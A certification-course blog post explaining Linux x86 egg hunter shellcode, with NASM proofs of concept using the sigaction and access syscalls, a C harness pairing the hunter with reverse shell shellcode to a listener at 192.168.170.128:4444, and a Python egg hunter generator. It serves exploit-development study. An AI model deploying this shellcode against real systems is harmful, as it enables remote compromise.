```yaml
---
title: SLAE Exercise 3
tags: SLAE
key: 20190611
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Three:

1. Study about the egg hunter shellcode
2. Create a working demo of the egg hunter
3. Should be configurable for different payload

What exactly is an egg hunter? When buffer overflow happens, the ESP may not always have enough amount of memory space to fit our shellcode and let use to use JMP ESP to execute it. If this happens, an egg hunter will be handy. We can just include our shellcode in some where else of the memory. Then, the egg hunter code iterate through the memory address and try to locate our egg, which is appended in front of our shellcode. If an egg is found, it will jmp to the egg and execute the rest of the shellcode. 

To make it simple, I try to write down the logic in python.
```python
count = 0
egg = 0x746f6f72 #root in reverse order

for address in range(0xffffffff):
    if address == 0x746f6f72:
        count +=1
    if count == 2:
        jmp_to_shellcode()
    address += 0x1
```

According to <http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf> there are actually a few implementation of egg hunters. Here lets try to understand them one by one.
While the egg hunter travels along the memory address it may seems that all it need is to examine each address one by one. However, the truth is that there are invalid memory address which will cause your egg hunter get a segmentation fault or other runtime error in the program. So, we will need some method to test the address we are going to compare. If it is valid, we will proceed, it not, we will ignore it.

In general, there are system call that can be use to valid an address, sigaction(0x43) and access(0x21).
Below is a proof of concept of egghunter using sigaction
```
global _start

section .text

_start:

setup:
	or cx, 0xfff		;Increase by page_size
next_address:
	inc ecx
	push byte 0x43		;Systemcall for sigation
	pop eax
	int 0x80
	cmp al, 0xf2		;f2 = invalid address
	jz setup
	
	mov eax, 0x726F6F74	;EGG = root = 726F6F74
	mov edi, ecx		;move address to edi to examine
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	jmp edi			;execute shellcode
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/sigaction-egghunter.nasm>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-1.JPG"/>
ECX is being set to end with fff every time we cannot validate the address (0xfff > 0x1000 > 0x1fff > 0x2000). This implementation is to increase ECX by page size. If the address inside a page size is invalid, the rest should be invalid too. As such, we can increase the address by page size and save sometime while searching.
Then, EAX is set to 0x43 so that we can call sigaction to help us validate the address.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-2.JPG"/>
In case the address is invalid, EAX will be set to 0xfffffff2 and by checking is al equals to f2 we know that is the address valid or not. If not, we will jump back to setup and start again.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-3.JPG"/>
Once a valid address is found, we will start the second part of our shellcode. We will first mov the value of our egg, "root" to eax. Then, the current address to be test will be moved from ecx to edi for testing. We will then use scasd to compare both EAX and value inside the address stored in EDI. 

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-4.JPG"/>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-5.JPG"/>
If two double word are not the same, we will increase ecx and test again. If yes, scasd will check the next double word to verify that this is indeed our egg. Notice that scasd, by default, will increase the address in EDI by 4 after it checked the string. So that is no need for us to increase the address value of EDI and also answered why we can just jmp EDI when the egg is found.

```
global _start

section .text

_start:
	xor edx,edx
setup:
	or dx,0xfff
next_address:
	inc edx
	lea ebx,[edx+0x4]	#Actually an optimization
	push byte +0x21
	pop eax
	int 0x80
	cmp al, 0xf2
	jz setup
	mov eax, 0x746F6F72
	mov edi, edx
	scasd
	jnz next_address
	scasd
	jnz next_address
	jmp edi	
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/access-re-egghunter.nasm>

The implementation of the access method is mostly the same as the sigaction while the access systemcall need more arguments. EBX will be needed to store the address of the string being validate. However, from the code, it seems that EBX is storing the value of EDX + 4. The reason of this is same as the page size implementation. If the value of ebx + 4 is invalid, there is no way that edx will be valid. As such according to the paper, an optimization to the shellcode.
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-6.JPG"/>

To really test the egg hunter, I will use our reverse shell shellcode for testing.
The following sample will be using the sigaction poc
```c
#include<stdio.h>
#include<string.h>

unsigned char egg_hunter[] = "\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x74\x6f\x6f\x72\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

unsigned char egg[] = \         //reverse shell ip=192.168.170.128 port = 4444
"\x74\x6F\x6F\x72" //EGG, root
"\x74\x6F\x6F\x72"
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xdb\xb3\x03\xb2\x80\xc1\xe2\x08\xb2\xaa\xc1\xe2\x08\xb2\xa8\xc1\xe2\x08\xb2\xc0\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\x6a\x66\x58\xcd\x80\x87\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void main(){
 printf("Length of Egg Hunter:  %d\n", strlen(egg_hunter));
 printf("Length of Shellcode:  %d\n", strlen(egg));
 int (*ret)() = (int(*)())egg_hunter;
 ret();
}
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/testEgg.c>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-7.JPG"/>

At last, below is python script to generate an Egg hunter generator with your custom egg.
```python
import binascii
import sys
import os
import getopt

def usage():
	print('getEgghunter.py -e egg | -h help')	

def main(argv):
	port = 0
	ip = ''
	hexPort = ''
	hexIP = ''
	if(len(sys.argv) < 2):
		usage()
		sys.exit()
	try:
		opts,args = getopt.getopt(sys.argv[1:], "he:", ["help", "egg="])
	except getopt.GetoptError:
		usage()
		sys.exit(2)
	for opt, arg in opts:
		if opt in ("-h", "--help"):
			usage()
			sys.exit()
		elif opt in ("-e", "--egg"):
			egg = arg
			print('Egg: ' + egg)
			if len(egg) != 4:
				print('Invalid Egg, length must be 4 characters')
				sys.exit(2)
	hexEgg = ''
	for char in egg:
		hexEgg = ('\\x' + bytes.decode(binascii.hexlify(str.encode(char)))) + hexEgg

	Shellcode = "\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74\\xf1\\xb8"
	Shellcode +=hexEgg 
	Shellcode +="\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7"
	
	print('Egghunter: ' + Shellcode)
	print('Paste this in front of your shellcode')
	print('"' + hexEgg + '"')
	print('"' + hexEgg + '"')

if __name__ == '__main__':
	main(sys.argv[1:])
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/genEgghunter.py>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-7.JPG"/>